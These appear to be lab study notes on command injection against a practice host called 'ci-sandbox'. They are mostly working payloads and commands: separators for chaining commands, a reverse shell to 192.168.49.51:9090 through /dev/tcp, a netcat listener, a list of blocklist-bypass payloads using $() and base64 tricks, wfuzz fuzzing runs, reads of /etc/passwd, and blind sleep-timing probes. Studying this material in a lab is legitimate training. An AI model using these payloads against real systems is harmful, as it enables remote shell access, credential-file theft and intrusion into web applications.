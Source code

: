 #### Command Injection

In the case of Linux, we can use the semicolon (;), the logical AND (&&), the logical OR (||), and even a single pipe character (|).

```
ls -ls; id

```
We can also use && to chain commands. In this case the second command will only run if the first exits without error
A logical OR (||) will only run the second command if the first fails.

 Linux-specific inline execution1 mechanisms. Considers these examples, which use the backtick (`) character and the $() null statement to "wrap" a command ("cmd")

http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1;whoami

http://ci-sandbox/nodejs/index.js?ip=127.0.0.1|cat%20/var/tmp/exercise_chaining_flag.txt

#### Input Normalization

```
http://ci-sandbox:80/nodejs/index.js?ip=127.0.0.1|bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'

curl "http://ci-sandbox/nodejs/index.js?ip=127.0.0.1|bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.51/9090+0>%261'"

```
#### Input Sanitization - Blocklisted Strings Bypass

Command substitution:

echo "I am `whoami` here"

echo "I am $(whoami) here"

A Null Statement Injection Bypass:

wh$()oami
n$()c -n$()lvp 9090

```

http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1;wh$()oami 

```

#### Custom command list
```
bogus
;id
|id
`id`
i$()d
;i$()d
|i$()d
FAIL||i$()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```
Commands:

```
wfuzz -c -z file,/home/kali/command_injection_custom.txt --hc 404 http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ

wfuzz -c -z file,/home/kali/command_injection_custom.txt --hc 404 --hh 1156 http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ


```

```
echo "cat /etc/passwd" |base64

http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`

```

#### Input Sanitization - Blocklisted Strings Bypass

```
time curl http://ci-sandbox:80/php/blind.php?ip=127.0.0.1

time curl "http://ci-sandbox:80/php/blind.php?ip=127.0.0.1;sleep%2020"

```

